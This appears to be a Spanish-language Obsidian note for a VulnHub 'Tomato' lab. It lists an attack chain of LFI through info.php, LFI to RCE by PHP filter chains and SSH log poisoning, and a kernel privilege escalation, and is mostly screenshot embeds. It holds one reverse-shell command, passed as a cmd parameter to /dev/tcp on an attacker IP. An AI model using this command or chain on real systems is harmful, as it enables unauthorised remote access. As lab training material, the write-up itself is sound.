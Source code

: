 [[Vulnhub]]
Lunes 25 de agosto del 2023 Mexico.
CDMX-Polanco
Valente Spiegel
![[Pasted image 20230808142013.png]]

---
# Habilidades

Web Enumeration  <br>Local File Inclusion (LFI) through info.php file  <br>LFI to RCE (Way 1) [Abusing PHP filters chain]  <br>LFI to RCE (Way 2) [Log Poisoning via SSH logs]  <br>Linux Kernel < 4.13.9 Ubuntu 16.04 Exploitation [Privilege Escalation]|

---

# Creación de directorios para espacio de trabajo.

Es importante crear directorios o espacios de trabajo específicos al resolver una máquina.
Al crear un directorio o espacio de trabajo dedicado para una máquina de VulnHub, puedes mantener ordenada toda la información relacionada con esa máquina en un solo lugar. Esto incluye archivos de configuración, resultados de escaneos, notas y cualquier otro dato relevante. Una estructura organizada facilita el seguimiento del progreso, el acceso rápido a la información y la revisión posterior de los pasos realizados.

```java
mkdir tomato && cd tomato && mkdir {Scan,Content,Exploits,Evidencia}
```
---



![[Pasted image 20230808141944.png]]
![[Pasted image 20230808142345.png]]
![[Pasted image 20230808142438.png]]
![[Pasted image 20230808142748.png]]
![[Pasted image 20230824132332.png]]
![[Pasted image 20230824132501.png]]

![[Pasted image 20230824132825.png]]

![[Pasted image 20230824170758.png]]

![[Pasted image 20230824171724.png]]
![[Pasted image 20230824173155.png]]
![[Pasted image 20230824173216.png]]

![[Pasted image 20230825110512.png]]

![[Pasted image 20230825110715.png]]

![[Pasted image 20230825113250.png]]

![[Pasted image 20230825113444.png]]

![[Pasted image 20230825120425.png]]

![[Pasted image 20230825120455.png]]
![[Pasted image 20230825121306.png]]


![[Pasted image 20230825121416.png]]

![[Pasted image 20230825121545.png]]
![[Pasted image 20230825121717.png]]
![[Pasted image 20230825122320.png]]

![[Pasted image 20230825122545.png]]

![[Pasted image 20230825122652.png]]
&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.153.152/4433 0>%261"

![[Pasted image 20230825124547.png]]

![[Pasted image 20230825124609.png]]
![[Pasted image 20230825130035.png]]

![[Pasted image 20230825130120.png]]

![[Pasted image 20230825130234.png]]


![[Pasted image 20230825130513.png]]

![[Pasted image 20230825131010.png]]

![[Pasted image 20230825133311.png]]

![[Pasted image 20230825133500.png]]
![[Pasted image 20230825134552.png]]

